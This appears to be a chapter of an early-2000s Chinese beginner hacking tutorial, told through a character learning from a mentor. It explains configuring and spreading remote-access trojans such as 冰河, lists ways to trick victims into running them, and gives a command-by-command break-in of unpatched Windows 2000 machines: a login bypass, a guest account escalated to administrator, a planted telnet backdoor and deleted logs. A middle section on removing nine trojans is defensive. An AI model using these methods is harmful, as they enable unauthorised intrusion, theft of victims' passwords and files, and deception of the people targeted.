木马需要受害者合作才能发挥功效，否则，就成为一个摆在撒哈拉沙漠上的装饰品，毫无用处。那些想成为黑客的人们，绝不能以会使用木马便获得满足，而更要努力学习新的入侵知识，掌握更高的入侵手段。毕竟，一台服务器是不会主动将你的木马迎进大门的，你必须通过自己丰富的知识去找它的漏洞所在，在得到它的控制权后再人为安装木马来简化以后的入侵，或者获得更多命令行下无法得到的控制。

阿瓜看了这些资料心里明白了，啊，原来木马实际上就是一个运行在别人电脑里的软件。

好吧，下载几个，用用。阿瓜一找，发现木马品种还真不少。现在的木马品种可以说有成千上百个，阿瓜选择了比较流行的几个来练习。


#### 4.1.1 国产木马精品之一——冰河

> 傻瓜必读

冰河是国产木马的鼻祖，也是国产木马的精品。它刚出世就被炒得沸沸扬扬。回忆起 98 年的网络，可以说是它对中国当时乃至后来的黑客界的发展起了不可磨灭的功勋。

冰河从第一个版本冰河 1.0 开始到现在已经更新了好多次，新版本层出不穷，而且由于作者公开了软件的编程原理和源代码，所以很多人又写了不少冰河的变体。杀毒软件不断更新，而木马冰河也不断更新，这是时间与速度的较量。新版木马公布后很快就会有杀毒软件相应的更新。所以木马用就用最新的。而如果要防止被黑，那杀毒软件就要用最新的。

阿瓜下载了著名的“冰河”，开始研究起来。首先，看看冰河的安装和使用。冰河的版本很多，其功能相似，不过有的稳定性较差，阿瓜选择的是一个比较好的最新修改的冰河 v6.0 加强版本。

- G-client.exe
- G-Server.exe
- Readme.txt

阿瓜先看了说明。其中说 G-Server.exe 是服务端，不要运行它，这是给别人用的。

点击打开 G-client.exe 文件，出现如图 4-1-1 界面：


阿瓜先点了点各个按钮，看了看菜单，有些功能一看就明白了。然后又看了看说明，过了半个小时，终于对使用方法有了大概的印象。不知好用不好用呢，阿瓜心想。好吧，试一试。阿瓜决定首先配置服务端，然后再使用。

### 第一步，设置服务端。


如图 4-1-2，这就是服务端配置的界面。先看“基本设置”，在最下面的待配置文件中选择要配置的文件，即冰河的服务端 G_server.exe。然后，把上面的各个文本框都填好。其中“访问口令”可以随自己的喜好随便设。

> LOOK 傻瓜经验：监听端口最好改一下，因为现在很多人都知道冰河的服务端口是“7626”，其它不用改了。

然后，阿瓜看了看“自我保护设置”，把它设为默认。阿瓜想，如果想提高隐蔽性，应该将文件关联名改成其它和系统文件相似的名称，阿瓜把它改成 syscfs.exe。然后选中了“写入注册表启动项”，这可以使得对方开机后，冰河服务端立即启动，键值选了一个和应用软件差不多名称的写上就行了。OK，配置完了（如图 4-1-3）。


## 1.8K 傻瓜提示

如果要想把对方机器里的密码等信息通过信箱弄到手，那就必须设置“邮件通知”选项。


4-1-4 设置“邮件通知”

阿瓜知道“SMTP服务器”填写方法为：如果自己的邮箱地址为 `xxx@xxx.com`，那么就在“SMTP服务器”一项中填写 `smtp.xxx.com`。“接收邮箱”里填相应的自己的邮件地址，即上面的 `xxx@xxx.com`。然后在“邮件内容”复选框内，把自己感兴趣的选项点上勾，如图4-1-4所示。

好了，设置完了。点击“确定”，这样就完成了服务端的设置。

## 第二步，添加主机


4-1-5 添加主机

回到“冰河”主界面，打开“文件”菜单，可以看到“添加主机”选项。点击后，出现“添加主机”对话框（如图4-1-6）。对话框中“显示名称”随便填，“主机地址”填“冰河服务器所在的主机地址”。如果这个服务器是自己配置的，那么“访问口令”就填自己在第一步里写的那个，“监听端口”也一样；如果不是自己配置的，那就只好碰运气了。

还有，就是可以通过“文件”→“自动搜索”寻找主机。在弹出的对话框中，填写搜索地址的“起始域”，地址段随便写，但是格式一定要如图4-1-7所示，其它默认即可。如果知道某段地址内有可能有服务端，那么这个方法成功率较高，否则成功率极小。

阿瓜决定在自己局域网先找一找，不过结果很让人失望。


4-1-6 添加主机对话框


4-1-7 自动搜索计算机

阿瓜最后想明白了，最可行的方法就是把服务端配置好了，然后再想办法让别人运行它。

阿瓜从网上的资料里看到了现在最常见的欺骗方法：

- 1. 捆绑欺骗。把木马服务端和某个游戏捆绑成一个文件，用QQ或邮件发给别人。别人运行后会看到游戏程序正常打开，却不会发觉木马程序已经悄悄运行，可以起到很好的迷惑作用。而且即使别人以后重装系统了，如果这个游戏还保存着的话，他还是有可能再次中招。
- 2. 这是教科书式的老式欺骗，方法如下：直接将木马服务端发给对方，对方运行后无反应（运行木马后的典型表现）。可用“怎么打不开啊”“对不起，我发错了”等话术，再把正常文件发给他，对方往往不会再怀疑。
- 3. QQ冒名欺骗。前提：先拥有一个不属于自己的QQ号，再用该号给其好友发送木马程序；好友误以为来自熟人而运行，中招。
- 4. 邮件冒名欺骗。用匿名邮件工具冒充好友或机构发送木马附件，对方下载并运行即中木马。
- 5. 危险下载点。入侵下载站后，将木马捆绑到热门软件中供人下载；每增加一次下载就可能新增一台“肉鸡”。
- 6. 文件夹惯性点击。把木马伪装成文件夹图标并放在多层空文件夹中，利用连续点击习惯触发运行。
- 7. zip伪装。将木马与损坏的zip捆绑并使用zip图标伪装；用户通常以为压缩包损坏，不知木马已运行。附：可先建文本并改后缀为zip，再与server捆绑并指定图标。

“无招胜有招”，要想成为高手，就要领会其本质，不多说了。添加主机后，就可以对对方主机进行操作了。

## 第三步，远程操作

阿瓜试了一下午之后，终于找到了一个冰河客户端。远程操作最令人感兴趣：连接到对方主机后，可以看到左侧框里起了变化，如图4-1-8。


4-1-8 图中的“木马的家”和laz即添加的主机。双击“木马的家”即可建立连接，右侧会出现对方文件列表，如图4-1-9所示。


4-1-9 连接对方主机后看到对方的文件。

> **傻瓜提示**：大家注意，这些东西千万不能只玩花招数，因为高手的家法是……

> **傻瓜提示**：在感兴趣的文件上点击右键，就会出现一些有趣的功能，可以随便试试。

阿瓜用了一天的时间，终于弄明白了冰河的使用方法，真是不错。

#### 4.1.2 不落俗套——网络神偷

阿瓜玩木马上了瘾，又下载了一个网络神偷XP版，想换个口味，比较一下。

网络神偷是一个远程文件访问工具，具有针对磁盘文件系统、强大的文件操作功能、穿墙入室大法、先进的服务端上线通知功能；所有公开的数据均用RSA数据加密等强大功能。

特点：
- 1、网络神偷XP版的客户端与服务端全面支持Windows NT/2000/XP，并兼容Windows 95/98/Me。
- 2、更加面向企业化应用，新增支持100MB ZIP驱动器以及映射网络驱动器（以上“支持”包括本地及远程的）。
- 3、服务端程序更加小巧，只有77KB。
- 4、网络神偷XP版不兼容以前其它版本，不能用XP版客户端连接2.7版的服务端，反之亦然。


4-1-10 操作对方文件

阿瓜研究后发现，更强大的功能在“命令控制台”里，在这里几乎可以像操作自己的电脑一样进行各种操作。


4-1-11 强大的命令控制台

如图4-1-11，选择“屏幕控制”，然后就会看到对方电脑的屏幕，而且可以控制对方的屏幕，只要用鼠标点击屏幕上的按钮或图标，就会看到对方的电脑屏幕上发生了与在自己电脑上进行同样操作一样的效果。

其它功能还有发送信息、鼠标控制、创建共享等等，阿瓜一一试过，感觉好极了。

阿瓜听榕哥说，与冰河比较，本软件有几点不同。

第一，运行安装文件后，在软件启动时，它会提醒你，让你填上你的主页的FTP地址。

所以要使用本软件，首先要在提供个人主页服务的网站上申请一个免费的个人主页账号。


4-1-13 网络神偷的使用界面

傻瓜问题：如何申请个人主页服务呢？

答：你到提供免费个人主页服务的网站上一看就知道了，那里有向导式地介绍，这里不再赘述。

申请之后，你就可以在提示框里填上相应的信息。然后，就可以使用本软件了。


4-1-12 很多好玩的东西

第二，网络神偷有服务端上线通知功能。服务端如何把自己的IP地址告诉客户端就成了一个大问题，也就是服务端上线通知。


4-1-14 填写FTP地址

现在最常用的方法是Email通知，例如：冰河、Netspy、聪明基因、广外女生、网络公牛、Proloss、Way（无赖小子）等木马用的都是这种方法，即服务端上网后，发送自己的IP地址到事先指定的邮箱，客户端使用者只要去收信就行了。这种方法虽然最常用，但有很大不足：首先Email的实时性得不到保证，时慢时快，这与发信服务器的线路质量有很大关系。其次，现在越来越多的发信服务器设了“发信认证”功能，发信也要邮箱的密码（原来只有收信才要），这就给服务端发信增加了困难，服务端不带密码无法发送，带密码则有可能被别人破出来。

网络神偷用的是另一种更先进的方法：UDP通知。客户端上网后，会将自己的IP地址写到主页空间的指定文件里。服务端定期读取这个文件的内容，就可得到客户端的IP地址，并将自己的一些其它信息（主机名、IP地址、上线时间等等）用UDP协议发送给客户端。客户端接收后，将数据解释并显示在“服务端在线列表”里，服务端情况一目了然。


4-1-15 服务端在线列表

至于其它在主机上的操作，与“冰河”等都大同小异，就不再详述了。

阿瓜试过之后，觉得果真是不一样。阿瓜玩木马玩了一阵子，忽然想到一个问题，如果我中了木马怎么办啊？阿瓜可知道了木马的厉害，心想：“知己知彼，百战百胜”，得向榕哥请教一下。

榕哥告诉阿瓜下面的方法。如果自己的机器上中了木马，你最好用最新的杀毒软件杀一杀，不然后果你也知道了。当杀毒软件不太好用时，还有手动杀毒的方法。

## 4.1.3 新草除根——手动杀毒的方法

榕哥给阿瓜推荐了下面几招，这是九大流行木马的清除方法：

- 1. 网络公牛（Netbull）

网络公牛又名Netbull，是国产木马，默认连接端口23444，最新版本V1.1。服务端程序 `newserver.exe` 运行后，会自动脱壳成 `checkdll.exe`，位于 `C:\WINDOWS\SYSTEM` 下。下次开机 `checkdll.exe` 将自动运行，因此很隐蔽、危害很大。同时，服务端运行后会自动捆绑以下文件：

Win9x下：捆绑 `notepad.exe`、`write.exe`、`regedit.exe`、`winmine.exe`、`winhelp.exe`。  
WinNT/2000下：在2000下会出现文件改动报警，但也不能阻止以下文件的捆绑：`notepad.exe`、`regedit.exe`、`reged32.exe`、`drwtsn32.exe`、`winmine.exe`。

服务端运行后还会捆绑在开机时自动运行的第三方软件上，如：`realplay.exe`、QQ、ICQ等上。在注册表中网络公牛也悄悄地扎下了根，如下：

```
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run] "CheckDll.exe" = "C:\WINDOWS\SYSTEM\CheckDll.exe"

[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices] "CheckDll.exe" = "C:\WINDOWS\SYSTEM\CheckDll.exe"

[HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\Run] "CheckDll.exe" = "C:\WINDOWS\SYSTEM\CheckDll.exe"
```

没有采用文件关联功能，采用的是文件捆绑功能，和上面所列出的文件捆绑在一块，要清除非常困难。你可能要问：那么其它木马为什么不用这个功能？哈哈，其实采用捆绑方式的木马还有很多，并且这样做也有个缺点：容易暴露自己！只要是稍微有一些经验的用户，就会发现文件长度发生了变化，从而怀疑自己中了木马。

### 清除方法

- 1. 删除网络公牛的自启动程序 `C:\WINDOWS\SYSTEM\CheckDll.exe`。
- 2. 把网络公牛在注册表中所建立的键值全部删除（上面所列出的那些键值全部删除）。
- 3. 检查上面列出的文件，如果发现文件长度发生变化（大约增加了40K左右，可以通过与其它机子上的正常文件比较而知），就删除它们。然后点击“开始→附件→系统工具→系统信息→工具→系统文件检查器”，在弹出的对话框中选中“从安装软盘提取一个文件(E)”，在框中填入要提取的文件（前面你删除的文件），点“确定”按钮，然后按屏幕提示将这些文件恢复即可。如果是开机时自动运行的第三方软件如 `realplay.exe`、QQ、ICQ等被捆绑上了，那就得把这些文件删除，再重新安装。

- 2、网络神偷（Nethief）

网络神偷又名Nethief，是第一个反弹端口型木马。

什么叫“反弹端口”型木马呢？作者经过分析防火墙的特性后发现：大多数防火墙对于由外面连入本机的连接往往会进行非常严格的过滤，但是对于由本机连出的连接却疏于防范（当然也有的防火墙两方面都很严格）。于是，与一般木马相反，反弹端口型木马的服务端（被控制端）使用主动端口，客户端（控制端）使用被动端口。当要建立连接时，由客户端通过FTP主页空间告诉服务端：“现在开始连接我吧！”，并进入监听状态，服务端收到通知后，就会开始连接客户端。为了隐蔽起见，客户端的监听端口一般开在80，这样，即使用户使用端口扫描软件检查自己的端口，发现的也是类似“TCP 服务端的IP地址:1026，客户端的IP地址:80，ESTABLISHED”的情况，稍微疏忽一点你就会以为是自己在浏览网页。防火墙也会如此认为，大概没有哪个防火墙会不给用户向外连接80端口的吧。

### 清除方法

- 1. 网络神偷会在注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 下建立键值“internet”，其值为“internet.exe /s”，将键值删除。
- 2. 删除其自启动程序 `C:\WINDOWS\SYSTEM\INTERNET.EXE`。

OK，神偷完蛋了！

- 3、WAY2.4（火凤凰、无赖小子）

WAY2.4又称火凤凰、无赖小子，是国产木马程序，默认连接端口是8011。众多木马高手在介绍这个木马时都对其强大的注册表操控功能赞不绝口，也正因为如此它对我们的威胁就更大了。从我的试验情况来看，WAY2.4的注册表操作的确有特色，对受控端注册表的读写，就和本地注册表读写一样方便！这一点可比大家熟悉的冰河强多了，冰河的注册表操作没有这么直观，每次我都得一个字符一个字符地敲击出来。WAY2.4在注册表操控方面可以说是木马老大。

WAY2.4服务端被运行后在 `C:\windows\system` 下生成 `msgsvc.exe` 文件，图标是文本文件图标，很隐蔽，文件大小235,008字节，文件修改时间1998年5月30日，看起来它想冒充系统文件 `msgsvc32.exe`。同时，WAY2.4在注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 下建立串值 `Msgtask`，其键值为 `C:\WINDOWS\SYSTEM\msgsvc.exe`。此时如果用进程管理工具查看，你会发现进程 `C:\windows\system\msgsvc.exe` 赫然在列！

### 清除方法

要清除WAY，只要删除它在注册表中的键值，再删除 `C:\windows\system` 下的 `msgsvc.exe` 这个文件就可以了。要注意在Windows下直接删除 `msgsvc.exe` 是删不掉的，此时你可以用进程管理工具终止它的进程，然后再删除它；或者到DOS下删除 `msgsvc.exe` 也可。如果服务端已经和可执行文件捆绑在一起了，那就只有将那个可执行文件删除了！

- 4、冰河

冰河可以说是最有名的木马了，就连刚接触电脑的用户也听说过它。虽然许多杀毒软件可以查杀它，但国内仍有几十万中冰河的电脑存在！作为木马，冰河创造了最多人使用、最多人中弹的奇迹！现在网上又出现了许多冰河变种程序，我们这里介绍的是其标准版，掌握了如何清除标准版，再来对付变种冰河就很容易了。


冰河的服务器端程序为 `G-server.cxc`，客户端程序为 `G-client.exe`，默认连接端口为7626。一旦运行 `G-server`，那么该程序就会在 `C:\Windows\system` 目录下生成 `Kernel32.exe` 和 `sysexplr.exe`，并删除自身。`Kernel32.exe` 在系统启动时自动加载运行 `sysexplr.exe`，并与TXT文件关联。即使你删除了 `Kernel32.exe`，但只要你打开TXT文件，`sysexplr.exe` 就会被激活，将再次生成 `Kernel32.exe`，于是冰河又回来了！这就是冰河屡删不止的原因。

### 清除方法

- 1. 删除 `C:\Windows\system` 下的 `Kernel32.exe` 和 `Sysexplr.exe` 文件。
- 2. 冰河会在注册表 `HKEY_LOCAL_MACHINE\software\microsoft\windows\CurrentVersion\Run` 下扎根，键值为 `C:\windows\system\Kernel32.exe`，删除它。
- 3. 在注册表 `HKEY_LOCAL_MACHINE\software\microsoft\windows\CurrentVersion\Runservices` 下，还有键值为 `C:\windows\system\Kernel32.exe` 的也要删除。
- 4. 最后，改注册表 `HKEY_CLASSES_ROOT\txtfile\shell\open\command` 下的默认值，由中木马后的 `C:\windows\system\Sysexplr.exe %1` 改为正常情况下的 `C:\windows\notepad.exe %1`，即可恢复TXT文件关联功能。

- 5、广外女生

广外女生是广东外语外贸大学“广外女生”网络小组的炒作，破坏性很大，远程上传、下载、删除文件、修改注册表等自然不在话下。其可怕之处在于广外女生服务端被执行后，会自动检查进程中是否含有金山毒霸、防火墙、iparmor、tcmonitor、实时监控、lockdown、kill、天网等字样，如果发现就将该进程终止，也就是使防火墙完全失去作用！

该木马程序运行后，将会在系统的SYSTEM目录下生成一份自己的拷贝，名称为 `DIAGCFG.EXE`，并关联 `.EXE` 文件的打开方式；如果贸然删除了该文件，将会导致系统所有 `.EXE` 文件无法打开的问题。

### 清除方法

- 1. 由于该木马程序运行时无法删除该文件，因此启动到纯DOS模式下，找到System目录下的 `DIAGCFG.EXE`，删除它。
- 2. 由于 `DIAGCFG.EXE` 文件已经被删除了，因此在Windows环境下任何 `.exe` 文件都将无法运行。
- 3. 我们找到Windows目录中的注册表编辑器 `Regedit.exe`，将它改名为 `Regedit.com`；回到Windows模式下，运行Windows目录下的 `Regedit.com` 程序。
- 4. 找到 `HKEY_CLASSES_ROOT\exefile\shell\open\command`，将其默认键值改成 `"%1" %*`。
- 5. 找到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices`，删除其中名称为“Diagnostic Configuration”的键值。
- 6. 关闭注册表编辑器，回到Windows目录，将 `Regedit.com` 改回 `Regedit.exe`，即可完成删除 `DIAGCFG.EXE` 文件。

- 6、聪明基因

聪明基因也是国产木马，默认连接端口7511。服务端文件 `genueserver.exe`，用的是HTM文件图标，如果你的系统设置为不显示文件扩展名，那么你就会以为这是个HTM文件，很容易上当哦。客户端文件 `genueclient.exe`。如果不小心运行了服务端文件 `genueserver.exe`，它会装模作样地启动IE，让你进一步以为这是一个HTM文件，并且还在运行之后生成 `GENUESERVER.htm` 文件，这是用来迷惑你的！

哈哈，木马就是如此，骗你没商量！聪明基因是文件关联木马，服务端运行后会生成三个文件，分别是：`C:\WINDOWS\MBBManager.exe`、`Explore32.exe` 以及 `C:\WINDOWS\system\editor.exe`。的都是 HTM 文件图标，如果不注意，还真会以为它们是 HTM 文件呢！

Explore32.exe 用来和 HLP 文件关联，MBBManager.exe 用来在启动时加载运行，editor.exe 用来和 TXT 文件关联。如果你发现并删除了 MBBManager.exe，并不会真正清除了它。一旦你打开 HLP 文件或文本文件，Explore32.exe 和 editor.exe 就被激活，它再次生成守护进程 MBBManager.exe，想清除我？没那么容易！

聪明基因最可怕之处是其永久隐藏远程主机驱动器的功能，如果控制端选择了这个功能，那么受控端可就惨了，想找回驱动器？嘿嘿，没那么容易！

### 清除方法

- 1. 删除文件。删除 `C:\WINDOWS` 下的 `MBBManager.exe` 和 `Explore32.exe`，再删除 `C:\WINDOWS\system` 下的 `editor.exe` 文件。如果服务端已经运行，那么就得用进程管理软件终止 `MBBManager.exe` 这个进程，然后在 Windows 下将它删除。也可到纯 DOS 下删除 `MBBManager.exe`，`editor.exe` 在 Windows 下可直接删除。
- 2. 删除自启动文件。展开注册表到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 下，删除键值 `MainBroad BackManager`，其值为 `C:\WINDOWS\MBBManager.exe`，它每次在开机时就被加载运行，因此删它别手软！
- 3. 恢复 TXT 文件关联。聪明基因将注册表 `HKEY_CLASSES_ROOT\txtfile\shell\open\command` 下的默认键值由 `C:\WINDOWS\NOTEPAD.EXE %1` 改为 `C:\WINDOWS\system\editor.exe %1`，因此要恢复成原值。同理，到注册表 `HKEY_LOCAL_MACHINE\Software\CLASSES\txtfile\shell\open\command` 下，将此时的默认键值由 `C:\WINDOWS\system\editor.exe %1` 改为 `C:\WINDOWS\NOTEPAD.EXE %1`，这样就将 TXT 文件关联恢复过来了。
- 4. 恢复 HLP 文件关联。聪明基因将注册表 `HKEY_CLASSES_ROOT\hlpfile\shell\open\command` 下的默认键值改为 `C:\WINDOWS\explore32.exe %1`，因此要恢复成原值：`C:\WINDOWS\WINHLP32.EXE %1`。同理，到注册表 `HKEY_LOCAL_MACHINE\Software\CLASSES\hlpfile\shell\open\command` 下，将此时的默认键值由 `C:\WINDOWS\explore32.exe %1` 改为 `C:\WINDOWS\WINHLP32.EXE %1`，这样就将 HLP 文件关联恢复过来了。好了，可以和聪明基因说“再见”了！

## 7、黑洞2001

黑洞2001是国产木马程序，默认连接端口 2001。黑洞的可怕之处在于它有强大的杀进程功能！也就是说控制端可以随意终止被控端的某个进程，如果这个进程是天网之类的防火墙，那么你的保护就完全无用了，黑客可以由此而长驱直入，在你的系统中肆意纵横。

黑洞2001 服务端被执行后，会在 `C:\windows\system` 下生成两个文件，一个是 `S_Server.exe`，`S_Server.exe` 是服务端的直接复制，用的是文件夹的图标，一定要小心哦，这是个可执行文件，可不是文件夹哦；另一个是 `windows.exe`，文件大小为 255,488 字节，用的是未定义类型的图标。黑洞2001 是典型的文件关联木马，`windows.exe` 文件用来机器开机时立刻运行，并打开默认连接端口 2001，`S_Server.exe` 文件用来和 TXT 文件打开方式连起来（即关联）！当发现自己中了木马而在 DOS 下把 `windows.exe` 文件删除后，服务端就暂时被关闭，即木马暂时删除；当任何文本文件被运行时，隐藏的 `S_Server.exe` 木马文件就又被激活了，于是它再次生成 `windows.exe` 文件，即木马又被种入！

### 清除方法

- 1. 将 `HKEY_CLASSES_ROOT\txtfile\shell\open\command` 下的默认键值由 `S_SERVER.EXE %1` 改为 `C:\WINDOWS\NOTEPAD.EXE %1`。
- 2. 将 `HKEY_LOCAL_MACHINE\Software\CLASSES\txtfile\shell\open\command` 下的默认键值由 `S_SERVER.EXE %1` 改为 `C:\WINDOWS\NOTEPAD.EXE %1`。
- 3. 删除 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices\` 下的串值 `windows`。
- 4. 将 `HKEY_CLASSES_ROOT` 和 `HKEY_LOCAL_MACHINE\Software\CLASSES` 下的 `Winvxd` 主键删除。
- 5. 到 `C:\WINDOWS\SYSTEM` 下，删除 `windows.exe` 和 `S_Server.exe` 这两个木马文件。若已中了“黑洞2001”，可在 DOS 方式下删除，或先结束 `windows.exe` 进程再删除。至此可安全清除黑洞2001。


## 8、Netspy（网络精灵）

Netspy 又名网络精灵，是国产木马，版本约为 3.0，默认连接端口 7306。该版本加入注册表编辑和浏览器监控功能，可通过 IE/Navigate 远程监控。服务端执行后会在 `C:\Windows\system` 目录生成 `netspy.exe`，并在 `HKEY_LOCAL_MACHINE\software\microsoft\windows\CurrentVersion\Run` 下建立键值 `C:\windows\system\netspy.exe`，实现开机自启。

### 清除方法

- 1. 重启并在出现 *Starting Windows* 提示时按 F5 进入命令行，在 `C:\windows\system` 下执行：`del netspy.exe`。
- 2. 进入注册表 `HKEY_LOCAL_MACHINE\Software\microsoft\windows\CurrentVersion\Run`，删除 Netspy 键值。

## 9、SubSeven

SubSeven 功能强大，最新版本约 2.2（默认端口 27374），服务端仅 54.5k，易被捆绑。服务端程序 `server.exe`，客户端程序 `subseven.exe`。服务端运行后会变换端口、每次启动进程名也可能变化，因而较难排查。

### 清除方法

- 1. 打开注册表 `Regedit`，定位到：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 和 `RunService`。若有加载项（如 `c:\windows\system\***`）则删除。
- 2. 检查 `win.ini` 中 `run=` 后是否附加可执行文件名，有则删除。
- 3. 检查 `system.ini` 中 `shell=explorer.exe` 后是否跟随可疑文件，有则删除。
- 4. 重启 Windows 并删除对应木马程序（文中实验样本名为 `vqpbk.exe`）。

### 4.2 密道在哪里——利用 Win2000 漏洞入侵

本节讨论 Win2000 入侵方法。文中指出 Win2000 虽强大但漏洞较多、补丁频繁发布，许多用户安全意识不足且未及时打补丁，因此常成为利用目标。作者提到较著名的是“输入法漏洞”，并计划据此尝试入侵远程主机。

#### 4.2.1 密道是怎么建的——漏洞描述

该段介绍 Win2000 登录场景下的输入法相关漏洞与远程管理背景：在未打补丁机器上，可能借助系统机制获取更高权限；并提到 Win2000 终端服务可进行远程图形化管理，默认端口为 3389，安装客户端后可与开启服务的主机建立连接。


此漏洞使终端服务成为 Win2000 的合法木马。

Win2000 登录界面（如图4-2-3）。

#### 4.2.2 需要的工具

在正式开始之前，阿瓜先准备好了工具，这些工具都是榕哥介绍的。

- 扫描器：推荐 port ready，也可用流光、网络刺客等。
- 终端：Win2000 终端服务客户端。

### 4.2.3 这条路怎么走——入侵过程详解

榕哥对 Win2000 入侵的套路非常熟，给阿瓜大概说了下过程，然后让阿瓜自己去试。榕哥对阿瓜说，进去看看可以，千万别乱来，否则后果很难说，而且一定要注意擦除脚印。阿瓜都记在心中。下面就是阿瓜的入侵过程了。

### 第一步，获得管理员账号

先对一个网段进行扫描，扫描端口设为 3389，在“地址”栏填上想寻找的地址，按如图4-2-1所示填写好，点击“扫描”。


图4-2-2是扫描到的主机地址，然后将其地址填入 Win2000 终端服务器的“服务器”一栏与服务器连接。几秒钟后，屏幕上显示出……

> 如果发现是英文系统请安装汉化版，或者更换一个地址。

用 CTRL+SHIFT 快速切换输入法，切换至全拼，这时在登录界面左下角将出现输入法状态条。

如果没有出现，请耐心等待，因为对方的数据流传输还有一个过程。

用右键点击输入法状态条上的微软徽标，弹出“帮助”（如果发现“帮助”是灰色，就放弃，因为对方很可能发现并已经补上了这个漏洞），打开“帮助”一栏中“操作指南”，在最上面的任务栏点击右键，会弹出一个菜单，打开“跳至 URL”。此时将出现 WIN2000 的系统安装路径和要求我们填入的路径的空白栏。比如，该系统安装在 C 盘上，就在空白栏中填入 `c:\winnt\system32`。然后按“确定”，于是就成功地绕过了身份验证，进入了系统的 SYSTEM32 目录，如图4-2-4所示。


找到没打补丁的主机后，按上面说的办法在“跳至 URL”框里填入你想访问的文件夹路径，点击“确定”，你就会看到你想看的东西。

在使用终端服务器登录器时：你将看到你所打开的进程 ID、你的 IP 和机器名，甚至能够给你发送消息。终端服务器在验证你的身份的时候只留给了你一分钟的时间，在这一分钟内如果你不能完成上述操作，你只能再连接。你所看到的图像与操作会有所延迟，这受网速的影响。

> **黑客技巧**  
> 在“跳至 URL”地址框里填上你的 FTP 服务器上的文件路径，你就可以把文件传到对方机器上，并在对方机器上运行。如果这个文件是个木马服务端的话，你就知道会怎样了。不过这种方法很危险，因为很容易被人发现，除非你的木马没上杀毒软件的黑名单，或者碰巧对方没装杀毒软件。  
> 下面是比较稳妥的方法。

现在我们要获得一个账号，成为系统的合法用户。在该目录下找到 `net.exe`，如图4-2-5，为 `net.exe` 创建一个快捷方式，右键点击该快捷方式，在“属性”→“目标”→`c:\winnt\system32\net.exe` 后面空一格，填入 `user guest /active:yes`，点“确定”。这一步骤目的在于用 `net.exe` 激活被禁止使用的 guest 账户（如图4-2-5所示）。


> **黑客技巧**  
> 当然也可以利用 `user 用户名 密码 /add` 创建一个新账号，但容易引起网管怀疑。

## 第八章


### 第二步，创建跳板

再次登录终端服务器，以“guest”身份进入，此时 guest 已是系统管理员，已具备一切可执行权。打开“控制面板”，进入“网络和拨号连接”，在“本地连接”或“拨号连接”中查看属性，查对方是否选择“Microsoft 网络的文件和打印机共享”，如果没有，就打上勾。对方如果使用的是拨号上网，下次拨号网络共享才会打开，如图4-2-8所示。

运行该快捷方式，此时你不会看到运行状态，但 guest 用户已被激活。然后又修改该快捷方式，填入“user guest 密码”，运行，于是 guest 便有了密码。最后，再次修改，填入 `localgroup administrators guest /add`，将 guest 变成系统管理员。

> **黑客技巧**  
> 在过程中，如果对方管理员正……

```bash
net use \\IP Address\IPC$ ["password"] /user:"guest"
```

通过 IPC 远程登录就成功了，先复制一个 Telnet 的程序上去（小榕流光安装目录下的 Tools 目录里的 `Srv.exe`，另外，还有 `ntlm.exe`，一会要用）。

傻瓜问题：什么是流光？

答：流光是一个黑客软件，我们后面的文章还会提到。这个程序是在对方电脑上面开一个 Telnet 服务，端口是 99。

```bash
copy c:\hack\srv.exe \\***.***.***.***\admin$

net time \\***.***.***.***

at \\***.***.***.*** 09:00 srv.exe

telnet ***.***.***.*** 99

c:\winnt\system32>

copy c:\hack\ntlm.exe \\***.**.***.***\admin$

C:\WINNT\system32>ntlm
```

显示：`\\***.***.***.***` 的当前时间是 `2001/1/8 下午 08:55`，命令成功完成。

新增了一项作业，其作业 ID = 0。过几分钟后，telnet 99 登录成功。

把事先存放在 hack 目录里的 `ntlm.exe` 复制过去，然后回到 telnet 窗口运行 `ntlm.exe`。

显示：`Windows 2000 Telnet Dump, by Assasin, All Rights Reserved. Done!`

```bash
C:\WINNT\system32>
C:\WINNT\system32>

net stop telnet
net start telnet
```

好，现在来启动 WIN2000 本身的 telnet，首先终止 `srv.exe` 的 telnet 服务。系统报告并没有启动 telnet，不管它，继续。这次真的启动了 telnet，这时可以在另开的命令提示符窗口 telnet 到对方的 23 端口，验证身份，输入刚才设定的 guest 账号和密码，它就真正成为自己的跳板了。可以利用它到其它的主机去。

### 第三步，扫除脚印

删除为 `net.exe` 创建的快捷方式，删除 `winnt\system32\logfiles` 的日志文件，最后一步非常重要，不然很危险。

后来阿瓜发现，以上这些敲命令的活其实也可以用“流光”在图形界面下很容易地完成。不过阿瓜觉得多学点命令才有点高手的感觉。

阿瓜入侵成功后，在主机里面看了看，原来是个人用户的电脑，里面没什么东西，不过漫画电子书有不少，阿瓜想，和我的爱好差不多嘛。拿过来，慢慢欣赏。

阿瓜向榕哥请教漏洞的补救方法。榕哥说，其实微软官方已经发布了补丁，用他们的补丁就可以，但是有些用户根本没有安全概念，所以才会有这么多漏洞主机存在。常用的补漏方法为：

- 1. 打补丁
- 2. 删除输入法帮助文件
- 3. 停止终端服务

上面这个过程就是如何利用 Win2000 的最著名漏洞入侵的方法了。其实 Windows 系统的漏洞很多，下面我们再看看 Win98 的漏洞。

## 第三节 到邻家串门——利用 Win98 共享漏洞入侵

阿瓜最先接触的系统是 Win98，所以在知道了 Win2000 的漏洞后，就更想知道如何利用 Win98 的漏洞来入侵了。阿瓜知道 Win98 是许多个人或企业用户常用的操作系统，它操作方便，界面美观，曾一度受到人们的青睐。但是榕哥说，它同微软的其他产品一样存在着很多著名的漏洞。其中一个就是 Win98 的局域网共享密码漏洞，通过这个漏洞，人们在局域网内可以轻易绕过共享文件夹的密码保护，偷窥他人文件。

### 4.3.1 肇事之利器——所需工具

- 扫描器：port ready，网络刺客，shed（推荐）
- 破解器：Pqwak 1.0


### 4.3.2 路在脚下——入侵过程详解

